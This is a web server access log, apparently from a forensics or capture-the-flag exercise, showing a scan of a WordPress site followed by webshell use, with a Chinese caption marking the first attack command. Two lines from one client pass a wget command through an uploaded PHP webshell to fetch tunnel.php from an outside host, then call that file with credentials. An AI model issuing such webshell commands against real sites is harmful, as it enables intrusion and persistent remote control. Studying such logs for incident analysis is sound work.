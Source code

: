 ```shell
192.168.1.1 - - [06/Jul/2021:03:11:09 -0400] "GET /wp-includes/blocks.php HTTP/1.1" 200 5 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.1.1 - - [06/Jul/2021:03:11:10 -0400] "GET /wp-includes/cron.php HTTP/1.1" 200 5 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.1.1 - - [06/Jul/2021:03:11:10 -0400] "GET /wp-includes/css HTTP/1.1" 301 185 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.1.1 - - [06/Jul/2021:03:11:11 -0400] "GET /wp-includes/fonts HTTP/1.1" 301 185 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"192.168.1.1 - - [06/Jul/2021:03:11:12 -0400] "GET /wp-includes/images HTTP/1.1" 301 185 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.1.1 - - [06/Jul/2021:03:11:12 -0400] "GET /wp-includes/images/ HTTP/1.1" 403 571 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.1.1 - - [06/Jul/2021:03:11:12 -0400] "GET /wp-includes/js/ HTTP/1.1" 403 571 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"192.168.1.1 - - [06/Jul/2021:03:11:12 -0400] "GET /wp-includes/js/tinymce HTTP/1.1" 301 185 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"192.168.1.1 - - [06/Jul/2021:03:11:12 -0400] "GET /wp-includes/js/tinymce/ HTTP/1.1" 403 571 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"192.168.1.1 - - [06/Jul/2021:03:11:12 -0400] "GET /wp-includes/load.php HTTP/1.1" 200 5 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"192.168.1.1 - - [06/Jul/2021:03:11:15 -0400] "GET /wp-includes/rest-api/ HTTP/1.1" 403 571 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"192.168.1.1 - - [06/Jul/2021:03:11:15 -0400] "GET /wp-includes/rss.php HTTP/1.1" 500 5 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.1.1 - - [06/Jul/2021:03:11:16 -0400] "GET /wp-includes/update.php HTTP/1.1" 500 5 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"192.168.1.1 - - [06/Jul/2021:03:11:16 -0400] "GET /wp-includes/user.php HTTP/1.1" 200 5 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"192.168.1.88 - - [06/Jul/2021:03:11:23 -0400] "GET /wp-content/uploads/2021/07/4dcc4173d80a2817206e196a38f0dbf7850188ff.php?c=wget%20http://wuhu.hackerbase.io/tunnel.php%20./d799bae6088a90139b415fccb011d540531df83b.php HTTP/1.1" 200 31 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"192.168.1.1 - - [06/Jul/2021:03:11:24 -0400] "GET /wp-admin/js/common.js HTTP/1.1" 200 53964 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"192.168.1.1 - - [06/Jul/2021:03:11:25 -0400] "GET /wp-admin/js/dashboard.js HTTP/1.1" 200 27588 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"192.168.1.1 - - [06/Jul/2021:03:11:26 -0400] "GET /wp-admin/js/gallery.js HTTP/1.1" 200 5678 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.1.1 - - [06/Jul/2021:03:11:31 -0400] "GET /wp-admin/js/tags.js HTTP/1.1" 200 4741 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.1.1 - - [06/Jul/2021:03:11:31 -0400] "GET /wp-admin/js/updates.js HTTP/1.1" 200 94092 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.1.88 - - [06/Jul/2021:03:11:46 -0400] "GET /wp-content/uploads/2021/07/d799bae6088a90139b415fccb011d540531df83b.php?u=hacker&p=wuhu&t=http://wuhu.hackerbase.io/i HTTP/1.1" 200 39 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
192.168.1.1 - - [06/Jul/2021:03:12:04 -0400] "GET /wp-admin/includes/admin.php HTTP/1.1" 500 5 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"


```
第一次使用webshell执行攻击指令 
06/Jul/2021:03:10:42